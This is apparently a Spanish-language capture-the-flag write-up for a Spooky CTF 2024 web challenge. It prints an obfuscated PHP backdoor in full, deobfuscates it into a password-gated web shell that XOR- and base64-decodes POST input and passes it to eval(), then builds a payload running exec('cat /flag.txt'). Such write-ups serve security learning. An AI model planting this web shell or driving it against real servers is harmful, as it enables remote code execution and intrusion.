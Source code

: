 Intro:

![img1](https://github.com/halexys/UciTeam1/blob/main/Spooky_CTF_2024/web/img/reto5/image1.png)

Echémosle un vistazo al index.php:

```php
<?php ${"\x47\x4c\x4f\x42\x41\x4c\x53"}['d318a0a98']="\x39\x44\x2b\x67\x4e\x7c\x52\x6b\x42\x55\x7b\x35\x41\x3f\x6f\xa\x34\x5d\x20\x30\x71\x23\x59\x58\x54\x70\x43\x69\x45\x7d\x27\x4b\x40\x6a\x56\x25\x74\x73\x63\x29\x68\x77\x3e\x37\x3c\x60\x48\x9\x76\x3d\x5a\x57\x36\x28\x5e\x3a\x38\x53\x5f\x75\x47\x2f\x61\x50\x6c\x32\x5c\xd\x62\x49\x24\x78\x6e\x46\x2d\x21\x72\x2e\x6d\x7a\x4f\x5b\x66\x79\x31\x2c\x7e\x51\x4d\x26\x65\x4a\x4c\x64\x2a\x22\x3b\x33";$GLOBALS[$GLOBALS['d318a0a98'][68].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][84].$GLOBALS['d318a0a98'][11]]=$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][40].$GLOBALS['d318a0a98'][76];$GLOBALS[$GLOBALS['d318a0a98'][40].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][82].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][62]]=$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][76].$GLOBALS['d318a0a98'][93];$GLOBALS[$GLOBALS['d318a0a98'][68].$GLOBALS['d318a0a98'][16].$GLOBALS['d318a0a98'][97].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][84]]=$GLOBALS['d318a0a98'][37].$GLOBALS['d318a0a98'][36].$GLOBALS['d318a0a98'][76].$GLOBALS['d318a0a98'][64].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][72];$GLOBALS[$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][65].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][52].$GLOBALS['d318a0a98'][0]]=$GLOBALS['d318a0a98'][27].$GLOBALS['d318a0a98'][72].$GLOBALS['d318a0a98'][27].$GLOBALS['d318a0a98'][58].$GLOBALS['d318a0a98'][37].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][36];$GLOBALS[$GLOBALS['d318a0a98'][72].$GLOBALS['d318a0a98'][56].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][0]]=$GLOBALS['d318a0a98'][33].$GLOBALS['d318a0a98'][37].$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][72].$GLOBALS['d318a0a98'][58].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][90];$GLOBALS[$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][84].$GLOBALS['d318a0a98'][16].$GLOBALS['d318a0a98'][43].$GLOBALS['d318a0a98'][84].$GLOBALS['d318a0a98'][52].$GLOBALS['d318a0a98'][84].$GLOBALS['d318a0a98'][16]]=$GLOBALS['d318a0a98'][68].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][37].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][52].$GLOBALS['d318a0a98'][16].$GLOBALS['d318a0a98'][58].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][90];$GLOBALS[$GLOBALS['d318a0a98'][48].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][52].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][82].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][11]]=$GLOBALS['d318a0a98'][37].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][36].$GLOBALS['d318a0a98'][58].$GLOBALS['d318a0a98'][36].$GLOBALS['d318a0a98'][27].$GLOBALS['d318a0a98'][78].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][58].$GLOBALS['d318a0a98'][64].$GLOBALS['d318a0a98'][27].$GLOBALS['d318a0a98'][78].$GLOBALS['d318a0a98'][27].$GLOBALS['d318a0a98'][36];$GLOBALS[$GLOBALS['d318a0a98'][20].$GLOBALS['d318a0a98'][84].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][0].$GLOBALS['d318a0a98'][68].$GLOBALS['d318a0a98'][56]]=$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][16].$GLOBALS['d318a0a98'][56].$GLOBALS['d318a0a98'][16];$GLOBALS[$GLOBALS['d318a0a98'][79].$GLOBALS['d318a0a98'][65].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][65].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][56].$GLOBALS['d318a0a98'][97].$GLOBALS['d318a0a98'][11].$GLOBALS['d318a0a98'][68]]=$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][56].$GLOBALS['d318a0a98'][11].$GLOBALS['d318a0a98'][56].$GLOBALS['d318a0a98'][68];$GLOBALS[$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][43].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][68]]=$_POST;@$GLOBALS[$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][65].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][52].$GLOBALS['d318a0a98'][0]]($GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][76].$GLOBALS['d318a0a98'][76].$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][76].$GLOBALS['d318a0a98'][58].$GLOBALS['d318a0a98'][64].$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][3],NULL);@$GLOBALS[$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][65].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][52].$GLOBALS['d318a0a98'][0]]($GLOBALS['d318a0a98'][64].$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][3].$GLOBALS['d318a0a98'][58].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][76].$GLOBALS['d318a0a98'][76].$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][76].$GLOBALS['d318a0a98'][37],0);@$GLOBALS[$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][65].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][52].$GLOBALS['d318a0a98'][0]]($GLOBALS['d318a0a98'][78].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][71].$GLOBALS['d318a0a98'][58].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][71].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][59].$GLOBALS['d318a0a98'][36].$GLOBALS['d318a0a98'][27].$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][72].$GLOBALS['d318a0a98'][58].$GLOBALS['d318a0a98'][36].$GLOBALS['d318a0a98'][27].$GLOBALS['d318a0a98'][78].$GLOBALS['d318a0a98'][90],0);@$GLOBALS[$GLOBALS['d318a0a98'][48].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][52].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][82].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][11]](0);$k6de1cb3=NULL;$v24368366=NULL;$GLOBALS[$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][52].$GLOBALS['d318a0a98'][56].$GLOBALS['d318a0a98'][56]]=$GLOBALS['d318a0a98'][11].$GLOBALS['d318a0a98'][25].$GLOBALS['d318a0a98'][84].$GLOBALS['d318a0a98'][72].$GLOBALS['d318a0a98'][74].$GLOBALS['d318a0a98'][36].$GLOBALS['d318a0a98'][40].$GLOBALS['d318a0a98'][97].$GLOBALS['d318a0a98'][74].$GLOBALS['d318a0a98'][11].$GLOBALS['d318a0a98'][84].$GLOBALS['d318a0a98'][64].$GLOBALS['d318a0a98'][64].$GLOBALS['d318a0a98'][83].$GLOBALS['d318a0a98'][74].$GLOBALS['d318a0a98'][11].$GLOBALS['d318a0a98'][36].$GLOBALS['d318a0a98'][76].$GLOBALS['d318a0a98'][84].$GLOBALS['d318a0a98'][72].$GLOBALS['d318a0a98'][3].$GLOBALS['d318a0a98'][11];global$cc688;function ae858b($k6de1cb3,$rbf8cd4){$qc11="";for($q58dcf=0;$q58dcf<$GLOBALS[$GLOBALS['d318a0a98'][68].$GLOBALS['d318a0a98'][16].$GLOBALS['d318a0a98'][97].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][84]]($k6de1cb3);){for($ibc3=0;$ibc3<$GLOBALS[$GLOBALS['d318a0a98'][68].$GLOBALS['d318a0a98'][16].$GLOBALS['d318a0a98'][97].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][84]]($rbf8cd4)&&$q58dcf<$GLOBALS[$GLOBALS['d318a0a98'][68].$GLOBALS['d318a0a98'][16].$GLOBALS['d318a0a98'][97].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][84]]($k6de1cb3);$ibc3++,$q58dcf++){$qc11.=$GLOBALS[$GLOBALS['d318a0a98'][68].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][84].$GLOBALS['d318a0a98'][11]]($GLOBALS[$GLOBALS['d318a0a98'][40].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][82].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][62]]($k6de1cb3[$q58dcf])^$GLOBALS[$GLOBALS['d318a0a98'][40].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][82].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][90].$GLOBALS['d318a0a98'][62]]($rbf8cd4[$ibc3]));}}return$qc11;}function c484($k6de1cb3,$rbf8cd4){global$cc688;return$GLOBALS[$GLOBALS['d318a0a98'][79].$GLOBALS['d318a0a98'][65].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][65].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][56].$GLOBALS['d318a0a98'][97].$GLOBALS['d318a0a98'][11].$GLOBALS['d318a0a98'][68]]($GLOBALS[$GLOBALS['d318a0a98'][79].$GLOBALS['d318a0a98'][65].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][65].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][56].$GLOBALS['d318a0a98'][97].$GLOBALS['d318a0a98'][11].$GLOBALS['d318a0a98'][68]]($k6de1cb3,$cc688),$rbf8cd4);}if(!$k6de1cb3){foreach($GLOBALS[$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][43].$GLOBALS['d318a0a98'][93].$GLOBALS['d318a0a98'][68]]as$rbf8cd4=>$n18fd12d){$k6de1cb3=$n18fd12d;$v24368366=$rbf8cd4;}}$k6de1cb3=@$GLOBALS[$GLOBALS['d318a0a98'][72].$GLOBALS['d318a0a98'][56].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][38].$GLOBALS['d318a0a98'][0]]($GLOBALS[$GLOBALS['d318a0a98'][20].$GLOBALS['d318a0a98'][84].$GLOBALS['d318a0a98'][19].$GLOBALS['d318a0a98'][0].$GLOBALS['d318a0a98'][68].$GLOBALS['d318a0a98'][56]]($GLOBALS[$GLOBALS['d318a0a98'][14].$GLOBALS['d318a0a98'][84].$GLOBALS['d318a0a98'][16].$GLOBALS['d318a0a98'][43].$GLOBALS['d318a0a98'][84].$GLOBALS['d318a0a98'][52].$GLOBALS['d318a0a98'][84].$GLOBALS['d318a0a98'][16]]($k6de1cb3),$v24368366),true);if(isset($k6de1cb3[$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][7]])&&$cc688==$k6de1cb3[$GLOBALS['d318a0a98'][62].$GLOBALS['d318a0a98'][7]]){if($k6de1cb3[$GLOBALS['d318a0a98'][62]]==$GLOBALS['d318a0a98'][90]){eval($k6de1cb3[$GLOBALS['d318a0a98'][93]]);}exit();}?>
   ```
Nos topamos con este hermoso oneliner, totalmento obfuscado, asi que trataremos de deobfuscarlo y entenderlo:

Primeramente, me encontre una herramienta en github que fue de bastante ayuda:

https://github.com/simon816/PHPDeobfuscator

luego de esto tenemos este código:

```php
$GLOBALS['d318a0a98'] = "9D+gN|RkBU{5A?o\n4] 0q#YXTpCiE}'K@jV%tsc)hw>7<`H\tv=ZW6(^:8S_uG/aPl2\\\rbI\$xnF-!r.mzO[fy1,~QM&eJLd*\";3";
$GLOBALS["baa15"] = "chr";
$GLOBALS["hefaea"] = "ord";
$GLOBALS["b43ce01"] = "strlen";
$GLOBALS["o2dac69"] = "ini_set";
$GLOBALS["n800cc9"] = "json_decode";
$GLOBALS["o1471614"] = "base64_decode";
$GLOBALS["vd6dfc005"] = "set_time_limit";
$GLOBALS["q109b8"] = "c484";
$GLOBALS["z2a2c835b"] = "ae858b";
$GLOBALS["ca7db"] = $_POST;
@ini_set("error_log", NULL);
@ini_set("log_errors", 0);
@ini_set("max_execution_time", 0);
@set_time_limit(0);
$k6de1cb3 = NULL;
$v24368366 = NULL;
$GLOBALS["cc688"] = "5p1n-th3-51lly-5tr1ng5";
global $cc688;
function ae858b($k6de1cb3, $rbf8cd4)
{
    $qc11 = "";
    for ($q58dcf = 0; $q58dcf < strlen($k6de1cb3);) {
        for ($ibc3 = 0; $ibc3 < strlen($rbf8cd4) && $q58dcf < strlen($k6de1cb3); $ibc3++, $q58dcf++) {
            $qc11 .= chr(ord($k6de1cb3[$q58dcf]) ^ ord($rbf8cd4[$ibc3]));
        }
    }
    return $qc11;
}
function c484($k6de1cb3, $rbf8cd4)
{
    global $cc688;
    return ae858b(ae858b($k6de1cb3, $cc688), $rbf8cd4);
}
if (!$k6de1cb3) {
    foreach ($GLOBALS["ca7db"] as $rbf8cd4 => $n18fd12d) {
        $k6de1cb3 = $n18fd12d;
        $v24368366 = $rbf8cd4;
    }
}
$k6de1cb3 = @$GLOBALS[$GLOBALS['d318a0a98'][72] . $GLOBALS['d318a0a98'][56] . $GLOBALS['d318a0a98'][19] . $GLOBALS['d318a0a98'][19] . $GLOBALS['d318a0a98'][38] . $GLOBALS['d318a0a98'][38] . $GLOBALS['d318a0a98'][0]]($GLOBALS[$GLOBALS['d318a0a98'][20] . $GLOBALS['d318a0a98'][84] . $GLOBALS['d318a0a98'][19] . $GLOBALS['d318a0a98'][0] . $GLOBALS['d318a0a98'][68] . $GLOBALS['d318a0a98'][56]]($GLOBALS[$GLOBALS['d318a0a98'][14] . $GLOBALS['d318a0a98'][84] . $GLOBALS['d318a0a98'][16] . $GLOBALS['d318a0a98'][43] . $GLOBALS['d318a0a98'][84] . $GLOBALS['d318a0a98'][52] . $GLOBALS['d318a0a98'][84] . $GLOBALS['d318a0a98'][16]]($k6de1cb3), $v24368366), true);
if (isset($k6de1cb3[$GLOBALS['d318a0a98'][62] . $GLOBALS['d318a0a98'][7]]) && $cc688 == $k6de1cb3[$GLOBALS['d318a0a98'][62] . $GLOBALS['d318a0a98'][7]]) {
    if ($k6de1cb3[$GLOBALS['d318a0a98'][62]] == $GLOBALS['d318a0a98'][90]) {
        eval($k6de1cb3[$GLOBALS['d318a0a98'][93]]);
    }
    exit;

  ```

Mucho más entendible pero aún un poco confuso, antes de tenrminar de deobfuscarlo, expliquemos un par de cosas de lo que hizo 
la herramienta:

Teníamos esto:

```php
${"\x47\x4c\x4f\x42\x41\x4c\x53"}
```
que es equivalente a $GLOBALS pero en hexadecimal...

![img2](https://github.com/halexys/UciTeam1/blob/main/Spooky_CTF_2024/web/img/reto5/image4.png)

... y lo mismo con 
```php
 "\x39\x44\x2b\x67\x4e\x7c\x52\x6b\x42\x55\x7b\x35\x41\x3f\x6f\xa\x34\x5d\x20\x30\x71\x23\x59\x58\x54\x70\x43\x69\x45\x7d\x27\x4b\x40\x6a\x56\x25\x74\x73\x63\x29\x68\x77\x3e\x37\x3c\x60\x48\x9\x76\x3d\x5a\x57\x36\x28\x5e\x3a\x38\x53\x5f\x75\x47\x2f\x61\x50\x6c\x32\x5c\xd\x62\x49\x24\x78\x6e\x46\x2d\x21\x72\x2e\x6d\x7a\x4f\x5b\x66\x79\x31\x2c\x7e\x51\x4d\x26\x65\x4a\x4c\x64\x2a\x22\x3b\x33"
```
que que vendrían siendo un alfabeto para cifrar, y juntos son:
```php
$GLOBALS[$var1] = "9D+gN|RkBU{5A?o\n4] 0q#YXTpCiE}'K@jV%tsc)hw>7<`H\tv=ZW6(^:8S_uG/aPl2\\\rbI\$xnF-!r.mzO[fy1,~QM&eJLd*\";3";
```
Una vez entendido esto, continuamos con la limpieza y termino con este código bastante entendible, el cual ya podemos procesar:

```php
<?php

$GLOBALS[$var1] = "9D+gN|RkBU{5A?o\n4] 0q#YXTpCiE}'K@jV%tsc)hw>7<`H\tv=ZW6(^:8S_uG/aPl2\\\rbI\$xnF-!r.mzO[fy1,~QM&eJLd*\";3";
$GLOBALS[$chr] = "chr";
$GLOBALS[$ord] = "ord";
$GLOBALS[$strlen] = "strlen";
$GLOBALS[$ini_set] = "ini_set";
$GLOBALS[$json_decode] = "json_decode";
$GLOBALS[$base64_decode] = "base64_decode";
$GLOBALS[$set_time_limit] ="set_time_limit";
$GLOBALS[$xor] = "xor";
$GLOBALS[$fun2] = "fun2";
$GLOBALS[$post] = $_POST;
@ini_set("error_log", NULL);
@ini_set("log_errors", 0);
@ini_set("max_execution_time", 0);
@set_time_limit(0);
$param1 = NULL;
$param2 = NULL;
$GLOBALS[$key] = "5p1n-th3-51lly-5tr1ng5";
global $key;

function xor($param1, $param3)
{
  $ret = ""
  for ($i = 0; $i < strlen($param1);)
  {
    for ($j = 0; $j < $param3 && $i < strlen($param1); $j++, $i++) 
    {
      $ret .= chr(ord($param1[i]) ^ ord($param3[j]));
    }
  }
  return $ret;
}

function fun2($param1, $param3)
{
  global $key;
  return xor(xor($param1, $key), $param3);
}

if(!$param1) 
{
  foreach ($_POST as $param3 => $param5) 
  {
    $param1 = $param5;
    $param2 = $param3;
  }
}
$param1 = json_decode(fun2(base64_decode($param1), $param2), true);
if (isset($param1[ak]) && $key == $param1[ak]) 
{
  if ($param1[a] == 'e');
  {
    eval($param1[d]);
  }
  exit;
}

```

Cambié el nombre de algunas variables para entender mejor el código y luego de analizarlo esto es lo que hace:

Tenemos una variable $key que parece ser importante ``` $GLOBALS[$key] = "5p1n-th3-51lly-5tr1ng5"; ```

Luego define dos funciones, la primera toma dos parámetros, les hace una suma xor y devuelve el resultado:

```php
function xor($param1, $param3)
{
  $ret = ""
  for ($i = 0; $i < strlen($param1);)
  {
    for ($j = 0; $j < $param3 && $i < strlen($param1); $j++, $i++) 
    {
      $ret .= chr(ord($param1[i]) ^ ord($param3[j]));
    }
  }
  return $ret;
}
```
Luego la otra función que llamé "fun2" que toma dos parámetros tambien, y usando la función anterior, primero hace un xor del
primer parámetro con la variable $key y luego un xor del resultado de la operación anterior con el parámetro 2:

```php
function fun2($param1, $param3)
{
  global $key;
  return xor(xor($param1, $key), $param3);
}
```
Más abajo comprueba si la variable $param1 (es el nombre que yo le dí) está definida hace lo siguiente:
```php
  foreach ($_POST as $param3 => $param5) 
  {
    $param1 = $param5;
    $param2 = $param3;
  }
```
Aquí toma el últmo valor del array superglobal $_POST, que es donde se guardan los datos enviados por POST al servidor, y les asigna
a $param1 el valor de este y a $param2 la clave (ejemplo si el último dato enviado fue test=pepito, $param1 seria pepito y $param2
sería test).

Luego modifica $param1...

```php
$param1 = json_decode(fun2(base64_decode($param1), $param2), true);
```
... primeramente decodifica de base64 el valor recibido por POST, luego se lo pasa como parámetro junto con la clave (del dato clave, valor)
recibibda por $POST a fun2, y este será el valor final de $param1.

Luego de esto $param1 debe quedar de la siguiente manera para pasar la próxima validación:

```json
$param1 = {
"ak" : "5p1n-th3-51lly-5tr1ng5",
"a" : "e",
"d" : "codigo php"
}
```
Validación:
```php
$param1 = json_decode(fun2(base64_decode($param1), $param2), true);
if (isset($param1[ak]) && $key == $param1[ak]) 
{
  if ($param1[a] == 'e');
  {
    eval($param1[d]);
  }
  exit;
}
```
El parámetro "d" de la esctructura en json, se va a ejecutar debido a que se pasa como parámetro a la función eval.

Luego de esto procedemos a crear nuestro payload y a enviarlo al servidor, para esto usamos las propias funciones del index.php y
creamos la secuencia inversa:

```php
$par = array(
    "ak" => "5p1n-th3-51lly-5tr1ng5",
    "a" => "e",
    "d" => "echo exec('cat /flag.txt');"
);
$json = json_encode($par);
$param_name = "json";
$param1 = ae858b($json, $param_name);
$final = ae858b($param1, $cc688);
$base64 = base64_encode($final);
echo $base64;

```
Como resultado obtenemos ``` JCE/a2U9JWg3dzAvcmJxdiswMmx0a29qKSwsfTdibnk6PTk1ImQ3Pj8/Mnk6YDZvZ2J/OCRueWFnfmIHMWcyYWpoLmYvOmshID0=``` 
Lo enviamos al servidor:

![img3](https://github.com/halexys/UciTeam1/blob/main/Spooky_CTF_2024/web/img/reto5/image5.png)

Y nos devuelve la flag!.
